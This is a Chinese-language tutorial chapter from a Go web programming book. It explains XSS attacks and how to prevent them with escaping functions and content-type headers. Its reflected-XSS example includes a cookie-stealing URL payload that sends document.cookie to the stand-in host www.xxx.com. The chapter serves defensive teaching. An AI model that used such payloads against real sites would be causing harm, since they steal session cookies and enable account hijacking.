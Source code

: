 # 9.3 避免XSS攻击
随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是应用程序能够根据用户环境和用户请求，输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

## 什么是XSS
XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

XSS通常可以分为两大类：一类是存储型XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。另一类是反射型XSS，主要做法是将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。

XSS目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

## XSS的原理
Web应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

接下来以反射性XSS举例说明XSS的过程：现在有一个网站，根据参数输出用户的名称，例如访问url：`http://127.0.0.1/?name=astaxie`，就会在浏览器输出如下信息：

	hello astaxie

如果我们传递这样的url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`,这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？与上类似，如下这样的url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，这样就可以把当前的cookie发送到指定的站点：www.xxx.com。你也放会说，这样的URL一看就有问题，怎么会有人点击？，是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？，攻击者将缩短过后的url通过某些途径传播开来，不明真相的用户一旦点击了这样的url，相应cookie数据就会被发送事先设定好的站点，这样子就盗得了用户的cookie信息，然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

更加详细的关于XSS的分析大家可以参考这篇叫做《[新浪微博XSS事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)》的文章

## 如何预防XSS
答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

目前防御XSS主要有如下几种方式：

- 过滤特殊字符

	避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：

	text/template包下面的HTMLEscapeString、JSEscapeString等函数

- 使用HTTP头指定类型

	`w.Header().Set("Content-Type","text/javascript")`

	这样就可以让浏览器解析javascript代码，而不会是html输出。


## 总结
XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。

## links
   * [目录](<preface.md>)
   * 上一节: [确保输入过滤](<9.2.md>)
   * 下一节: [避免SQL注入](<9.4.md>)
